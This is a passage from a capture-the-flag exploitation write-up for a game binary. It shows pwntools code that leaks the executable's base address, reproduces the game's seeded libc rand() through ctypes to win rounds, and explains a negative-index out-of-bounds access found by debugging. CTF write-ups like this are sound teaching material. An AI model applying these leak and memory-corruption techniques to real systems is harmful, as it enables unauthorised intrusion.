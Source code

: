```python
p.sendlineafter(b'(0-5)', b'5')
p.sendlineafter(b'(0-2)\n', b'2')

exe_leak = u64(p.recvline()[:-1] + b'\x00\x00')
exe.address = exe_leak - 0x1e8a
log.info("Exe base: " + hex(exe.address))
```

### Stage 2: Get flag

To get the random number with the specific seed `0x1337` in python, we can use cpython to load the libc and run all the functions as in c:

```python
from ctypes import*
glibc = cdll.LoadLibrary('./libc-2.31.so')
glibc.srand(0x1337)
```

Next, we create name for hero just as usual and will check again when we win the game:

```python
p.sendlineafter(b'(0-2)\n', b'2')

p.sendafter(b'hero?\n', b'0'*0x10)
p.sendafter(b'hero?\n', b'1'*0x10)

for i in range(7):
    print(p.recvuntil(b'(1/0)\n').decode())
    p.sendline(b'1')
    p.sendlineafter(b'> ', str(glibc.rand() % 2022).encode())
```

Set breakpoint at `0x555555556337` when run script with parameter `NOASLR` to see how `hero.id` works. Notice here is that id of the first hero is `0xfffffffe` when win the game because `0 - 2 = 0xfffffffe` with `0` is id of first hero, `-2` is because we win the game.

When debug, we know the address of fame is at `0x007fffffffdcf0`:

![addr-of-fame.png](images/addr-of-fame.png)

But one fame takes `16` byte, so `fame[-2]` will point at the id of second hero because `fame - 32` is our second hero:

![fame-at-second-hero.png](images/fame-at-second-hero.png)
